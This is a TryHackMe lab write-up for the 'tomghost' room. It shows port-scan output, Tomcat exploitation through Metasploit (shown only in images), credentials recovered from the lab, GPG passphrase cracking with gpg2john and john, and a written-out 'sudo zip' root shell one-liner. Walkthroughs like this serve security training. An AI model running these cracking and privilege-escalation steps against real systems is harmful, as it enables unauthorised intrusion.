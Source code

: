 ```yaml
---
title: "tomghost"
date: 2024-12-24
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Easy
---
```




## Enumeration

```
 rustscan -a 10.10.177.90
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Scanning ports: The virtual equivalent of knocking on doors.

[~] The config file is expected to be at "/home/k21/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.177.90:53
Open 10.10.177.90:22
Open 10.10.177.90:8009
Open 10.10.177.90:8080
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-12 15:03 +0545
Initiating Ping Scan at 15:03
Scanning 10.10.177.90 [4 ports]
Completed Ping Scan at 15:03, 0.19s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:03
Completed Parallel DNS resolution of 1 host. at 15:03, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 15:03
Scanning 10.10.177.90 (10.10.177.90) [4 ports]
Discovered open port 22/tcp on 10.10.177.90
Discovered open port 8080/tcp on 10.10.177.90
Discovered open port 8009/tcp on 10.10.177.90
Discovered open port 53/tcp on 10.10.177.90
Completed SYN Stealth Scan at 15:03, 0.20s elapsed (4 total ports)
Nmap scan report for 10.10.177.90 (10.10.177.90)
Host is up, received echo-reply ttl 60 (0.17s latency).
Scanned at 2025-02-12 15:03:21 +0545 for 0s

PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 60
53/tcp   open  domain     syn-ack ttl 60
8009/tcp open  ajp13      syn-ack ttl 60
8080/tcp open  http-proxy syn-ack ttl 60

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.58 seconds
           Raw packets sent: 8 (328B) | Rcvd: 5 (204B)


```

```
 nmap -sVC 10.10.177.90
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-12 15:02 +0545
Nmap scan report for 10.10.177.90 (10.10.177.90)
Host is up (0.17s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.68 seconds

```

Hmm I can see this too.
![](Pasted%20image%2020250212150938.png)
Hmm I just searched for a exploit of `# Apache Tomcat/9.0.30`.
Hoping if we find anything special and it worked.
![](Pasted%20image%2020250212151117.png)

So it is metasploit exploit.
I searched on msfconsole for making it simple.
![](Pasted%20image%2020250212151531.png)
And exploited it.
![](Pasted%20image%2020250212151557.png)
Hmm we got the username and password.
Hmmm.
`skyfuck:8730281lkjlkjdqlksalks`

![](Pasted%20image%2020250212151837.png)
And it worked on ssh.
![](Pasted%20image%2020250212152050.png)

Now lets do privilege escalation.
And found few things.
![](Pasted%20image%2020250212152257.png)
Hmmmm.
Now we can import that private gpg key in `tryhackme.asc`.
`gpg --import tryhackme.asc`
After this,
we can check this.
`gpg --list-secret-keys`
And do this.
` gpg --decrypt credential.pgp`

And it should be decrypted but there is a twist.
![](Pasted%20image%2020250212152808.png)
Its asking for a passphrase.
Hmmmm.


Then,I downloaded that both file to my host.
I used john to get hash and crack passphrase.
`gpg2john tryhackme.asc > hash.txt`
![](Pasted%20image%2020250212154903.png)
And simply cracked with john.
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt `
![](Pasted%20image%2020250212154941.png)
`alexandru`

And we decrypted that `credential.pgp`.
![](Pasted%20image%2020250212155130.png)
`merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`
![](Pasted%20image%2020250212155234.png)

Hmm now lets try to become root.
And we can see something.
![](Pasted%20image%2020250212155329.png)
Now I immediately goes to.
[[https://gtfobins.github.io/gtfobins/zip/#sudo]]

And got this.
```
Sudo(https://gtfobins.github.io/gtfobins/zip/#sudo)

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

    TF=$(mktemp -u)
    sudo zip $TF /etc/hosts -T -TT 'sh #'
    sudo rm $TF

```

![](Pasted%20image%2020250212155617.png)
And exploited this and got root.
![](Pasted%20image%2020250212155645.png)

And done.
![](Pasted%20image%2020250212155753.png)
